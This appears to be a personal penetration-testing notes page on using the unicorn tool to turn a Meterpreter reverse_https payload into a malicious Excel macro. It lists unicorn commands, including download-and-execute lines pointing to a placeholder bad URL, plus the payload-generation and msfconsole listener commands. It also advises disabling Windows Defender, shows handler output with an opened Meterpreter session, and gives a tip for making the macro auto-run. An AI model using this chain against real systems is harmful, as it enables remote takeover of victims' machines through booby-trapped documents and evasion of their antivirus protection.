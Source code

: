 ## Pre-requisite - [[comman_hacking_terms/Macros]]

## Using unicorn tool

#### Checking the payload for creation
```python
┌──(hyok㉿kali)-[/opt/unicorn]
└─$ ./unicorn.py
Usage: python unicorn.py payload reverse_ipaddr port <optional hta or macro, crt>
PS Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443
PS Down/Exec: python unicorn.py windows/download_exec url=http://badurl.com/payload.exe
PS Down/Exec Macro: python unicorn.py windows/download_exec url=http://badurl.com/payload.exe macro
Macro Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 macro
Macro Example CS: python unicorn.py <cobalt_strike_file.cs> cs macro
HTA Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 hta
HTA SettingContent-ms Metasploit: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 ms
HTA Example CS: python unicorn.py <cobalt_strike_file.cs> cs hta
HTA Example SettingContent-ms: python unicorn.py <cobalt_strike_file.cs cs ms
HTA Example SettingContent-ms: python unicorn.py <patth_to_shellcode.txt>: shellcode ms
DDE Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 dde
CRT Example: python unicorn.py <path_to_payload/exe_encode> crt
Custom PS1 Example: python unicorn.py <path to ps1 file>
Custom PS1 Example: python unicorn.py <path to ps1 file> macro 500
Cobalt Strike Example: python unicorn.py <cobalt_strike_file.cs> cs (export CS in C# format)
------------------------------------SNIP----------------------------------------
```

#### Payload creation 
```python
python unicorn.py windows/meterpreter/reverse_https 192.168.1.106 443 macro
```
- This creates a text file and a ".rc" file with the same name and on the same destination. 
![[unicor_output.png]]
- We run the command the shown by the unicorn to create a listener for our payload.
```python
msfconsole -r umicorn.rc
```

#### macro creation on excel
###### Step-1
![[step1_macro_creation.png]]

###### Step-2
![[step2_macro_creation.png]]

###### Step-3
![[step3_macro_creation.png]]
- The data that was paste above here is grabed from the file "powershell_attack.txt".
###### Step-4
![[step4_macro_creation.png]]
- If you are not able to save the file then you should disable "windows defender".
#### Enabling macro on excel
###### Step-1
![[Enabling_macro_step1.png]]

###### Step-2
![[Enabling_macro_step2.png]]

###### Step-3
![[Enabling_macro_step4.png]]

#### Opening the maclicious excel file(CSV file)
**Note** - If you are not able to open this file then kindly disable the "windows defender".
![[opening_CSV.png]]

###### You get a session
```python
msf6 exploit(multi/handler) > [*] https://192.168.1.7:443 handling request from 192.168.1.5; (UUID: byqezprj) Staging x86 payload (176732 bytes) ...
[*] Meterpreter session 1 opened (192.168.1.7:443 -> 192.168.1.5:60055) at 2023-04-20 14:41:50 +0530

msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information  Connection
  --  ----  ----                     -----------  ----------
  1         meterpreter x86/windows               192.168.1.7:443 -> 192.168.1.5:60055 (192.168.1.5)
```

# Note
- If you can't get a session after opening the "macro enabled excel file" then you should change "Sub AutoOpen()" to "Sub Auto_Open()" in the macro code.